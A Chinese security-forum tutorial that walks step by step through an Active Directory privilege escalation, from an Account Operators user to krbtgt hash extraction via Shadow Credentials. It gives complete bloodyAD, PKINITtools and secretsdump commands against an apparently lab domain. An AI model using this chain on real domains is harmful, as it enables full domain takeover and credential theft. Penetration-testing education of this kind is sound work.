










# 域内用户如何利用 Shadow Credentials 提权到域管 - 先知社区

域内用户如何利用 Shadow Credentials 提权到域管

- - -

如果攻击者可以修改目标对象（用户或计算机帐户）msDS-KeyCredentialLink 属性并以证书形式附加备用凭据，则攻击者可以修改该属性进而接管 AD 用户或计算机帐户。  
在攻防项目中，有时候拿了高权限的域用户却因权限不够，没法直接导出 krbtgt 的 hash，在这种场景下就可以利用 Shadow Credentials 进行提权  
假设我们拿到了这个域账号

IT-manager@penson.org/ITPenson@123 永遠的神  
查看这个域账号属于 ACCOUNT OPERATORS 组，这个组的成员是就可以管理域用户和账户的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172118-6761a76c-cfd1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172120-68dc16b8-cfd1-1.png)  
但是是没办法拿到域控权限的，不属于 Adminstrators 组，是无法导出 krbtgt hash 的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172132-6fbc68ac-cfd1-1.png)  
由此需要想办法提权到域控权限，因为 ACCOUNT OPERATORS 组可以管理域用户和账户，由此可以添加该用户到特殊权限组  
利用 bloodAD

```plain
bloodyAD.py --host 192.168.21.114 -d penson.org -u IT-manager -p ITPenson@123 永遠的神 add groupMember 'Administrator' IT-manager
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172156-7e27fc62-cfd1-1.png)  
本来想直接加到 Administrator 组里，发现没有权限，那么应该加到哪个组呢？  
用 bloodhound 发现 ENTERPRISE KEY ADMINS 这个组可以 AddKeyCredentialLink，AddKeyCredentialLink 这个是什么意思呢？借用谷歌翻译  
ENTERPRISE KEY ADMINS@PENSON.ORG 组的成员能够写入 ADCS.PENSON.ORG 上的“msds-KeyCredentialLink”属性。写入此属性允许攻击者在对象上创建“影子凭证”并使用 kerberos PKINIT 作为主体进行身份验证。如果攻击者可以修改目标对象（用户或计算机帐户）msDS-KeyCredentialLink 属性并以证书形式附加备用凭据，则此技术允许攻击者接管 AD 用户或计算机帐户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172207-8486e848-cfd1-1.png)  
尝试添加到 ENTERPRISE KEY ADMINS 这个组

```plain
python3.8 bloodyAD.py --host 192.168.21.114 -d penson.org -u IT-manager -p ITPenson@123 永遠的神 add groupMember 'ENTERPRISE KEY ADMINS' IT-manager
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172242-9948663a-cfd1-1.png)  
为 AD$添加影子凭据

```plain
python3.8 bloodyAD.py --host 192.168.21.114 -d penson.org -u IT-manager -p ITPenson@123 永遠的神 add shadowCredentials AD$
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172303-a61e2c82-cfd1-1.png)

利用 PKINITtools 拿票据

```plain
python3.8 ../PKINITtools/gettgtpkinit.py -cert-pem QNEvQE57_cert.pem -key-pem QNEvQE57_priv.pem penson.org/AD$ QNEvQE57.ccache -dc-ip 192.168.21.114
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172331-b66c00f0-cfd1-1.png)  
获取 AD$hash

```plain
python3.8 ../PKINITtools/getnthash.py penson.org/AD$ -key 3053f5d8109dc862de65741e58945abd584910abbef89cd50c9478a977d4c8aa -dc-ip 192.168.21.114
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172349-c168b2dc-cfd1-1.png)

```plain
python3.8 secretsdump.py penson.org/ad\$@192.168.21.114 -just-dc-user PENSON/krbtgt -hashes :c0032e2567e4f12b7f8ba3e436db4177
```

这个时候可以发现成功提权了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172409-cd8283e0-cfd1-1.png)

参考文章  
[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials)
